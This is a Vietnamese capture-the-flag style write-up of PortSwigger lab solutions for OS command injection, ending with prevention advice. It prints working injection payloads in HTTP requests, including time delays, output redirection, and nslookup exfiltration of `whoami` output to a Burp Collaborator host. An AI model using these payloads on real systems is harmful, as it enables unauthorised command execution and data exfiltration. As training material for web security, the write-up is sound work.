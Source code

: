 ```yaml
---
title: "[PortSwigger Lab] - OS Command Injection"
description: Solution of OS Command Injection on PortSwigger Lab
date: 2025-06-01 21:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, os command injection]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-01-portswigger-lab-os-command-injection/command-injection.jpg
    alt: OS Command Injection
---
```


## Introduction
---
**OS Command Injection** (còn gọi là **Shell Injection**) là một lỗ hổng bảo mật cho phép kẻ tấn công chèn và thực thi các lệnh hệ điều hành (như **Linux** hoặc **Windows**) trên máy chủ mà ứng dụng đang chạy.

## Solve OS Command Injection Lab
---
### Lab: OS command injection, simple case
Gửi request với storedId có chứa `injection`
```http
POST /product/stock HTTP/2
Host: 0a9a004a03f80ca4810489f000550085.web-security-academy.net
...
productId=20&storeId=1|whoami
```

- Dùng pipe `|` để truyền **output (stdout)** của lệnh bên trái sang làm **input (stdin)** của lệnh bên phải.
- Trên thực tế, `whoami` không nhận input từ stdin – nó chỉ in ra username rồi kết thúc.

### Lab: Blind OS command injection with time delays
- Submit 1 feadback bất kì, gửi request đến **Repeater**
- Gửi lại với các request sau:

- Dùng toán từ `OR (||)` để thực hiện lệnh khác sau khi lệnh gửi email lỗi
```http
POST /feedback/submit HTTP/2
Host: 0af200430494500780c6bcfb0081002f.web-security-academy.net
...
csrf=Idkvt9a5GZZDZDTsMAgG4PotPi2BT0N0&name=a&email=a||sleep+10||&subject=a&message=a
```

- Sử dụng `;` để tách lệnh và `#` để command lệnh đằng sau
```http
POST /feedback/submit HTTP/2
Host: 0af200430494500780c6bcfb0081002f.web-security-academy.net
...
csrf=Idkvt9a5GZZDZDTsMAgG4PotPi2BT0N0&name=a&email=a%40gmail.com+;+sleep+10+#&subject=a&message=a
```

- Sử dụng `\n` được mã hóa thành `%0a` để xuống dòng và `#` để command lệnh đằng sau
```http
POST /feedback/submit HTTP/2
Host: 0af200430494500780c6bcfb0081002f.web-security-academy.net
...
csrf=Idkvt9a5GZZDZDTsMAgG4PotPi2BT0N0&name=a&email=a%40gmail.com+;+sleep+10+#&subject=a&message=a
```

### Blind OS command injection with output redirection
Ý tưởng: **Submit feedback** đi kèm việc tạo ra file chứa nội dung cần lấy vào `/var/www/images/` rồi lấy nó giống như lấy file ảnh
#### Checking OS command can be excuted
- Request:
```http
POST /feedback/submit HTTP/2
Host: 0a7700ba034387a282e79c1a004200a4.web-security-academy.net
...
csrf=0p6kVqRROiiK4hK8IgaUtSF7uxrocNMp&name=a&email=a%40gmail.com+;+sleep+10+#&subject=a&message=a
```
- Nếu nó thực sự hoạt động sẽ response chậm 10s

#### Exploit
- Request:
```http
POST /feedback/submit HTTP/2
Host: 0a7700ba034387a282e79c1a004200a4.web-security-academy.net
...
csrf=0p6kVqRROiiK4hK8IgaUtSF7uxrocNMp&name=a&email=a%40gmail.com+;+whoami>/var/www/images/whoami.txt+#&subject=a&message=a
```

- Đọc file được tạo the đường dẫn
```
https://0a7700ba034387a282e79c1a004200a4.web-security-academy.net/image?filename=whoami.txt
```

### Lab: Blind OS command injection with out-of-band interaction
#### Checking OS command can be excuted
- Request:
```http
POST /feedback/submit HTTP/2
Host: 0a7700ba034387a282e79c1a004200a4.web-security-academy.net
...
csrf=0p6kVqRROiiK4hK8IgaUtSF7uxrocNMp&name=a&email=a%40gmail.com+;+sleep+10+#&subject=a&message=a
```
- Nếu nó thực sự hoạt động sẽ response chậm 10s
- ở đây nó đã chặn lệnh sleep 10 

Ý tưởng: sử dụng nslookup ra 1 server bên ngoài để kiếm tra OS command có hoạt động hay không

#### Exploit
- Sử dụng **Burp Colloborator** để làm server nhận request
- Request:
```http
POST /feedback/submit HTTP/2
Host: 0a7700ba034387a282e79c1a004200a4.web-security-academy.net
...
csrf=shDKgLg9f2ImcfCVEmCOxKGfnhy5KLca&name=a&email=a%40gmail.com+;+nslookup+0jk9byyvrh6otbzhihvxlok9y04rsig7.oastify.com+#&subject=a&message=a
```
- Poll now để lấy request về và xác nhận 

### Blind OS command injection with out-of-band data exfiltration
Tương tự như lab trên nhưng ta cần lấy nội dung của lệnh `whoami`
Payload:
```http
POST /feedback/submit HTTP/2
Host: 0a7700ba034387a282e79c1a004200a4.web-security-academy.net
...
csrf=shDKgLg9f2ImcfCVEmCOxKGfnhy5KLca&name=a&email=a%40gmail.com+;+nslookup+`whoami`.0jk9byyvrh6otbzhihvxlok9y04rsig7.oastify.com+#&subject=a&message=a
```
Hoặc
```http
POST /feedback/submit HTTP/2
Host: 0a7700ba034387a282e79c1a004200a4.web-security-academy.net
...
csrf=shDKgLg9f2ImcfCVEmCOxKGfnhy5KLca&name=a&email=a%40gmail.com+;+nslookup+$(whoami).0jk9byyvrh6otbzhihvxlok9y04rsig7.oastify.com+#&subject=a&message=a
```
- Trên các hệ thống dựa trên **UNIX**, bạn cũng có thể sử dụng **BackTicks(`` `...` ``)** hoặc ký tự **đồng đô la `$()`**để thực hiện thực thi nội tuyến của một lệnh được tiêm trong lệnh gốc

## Prevent
---
1. Cách tốt nhất: Không gọi lệnh hệ điều hành
2. Nếu bắt buộc phải gọi shell
    - Dùng danh sách trắng (whitelist)
    - Chỉ cho phép số nếu cần
    - Chỉ cho phép ký tự chữ và số (alphanumeric)

3. Không nên làm: "escape" ký tự đặc biệt, đừng cố gắng "lọc" hoặc "thoát" các ký tự như `;`, `|`, `&` trong input người dùng. Vì sao?
- Hacker biết rất nhiều cách mã hóa để vượt qua
- Escape không thể bảo vệ 100%
- Rất dễ sót lọt những trường hợp đặc biệt

---
Goodluck! 🍀🍀🍀
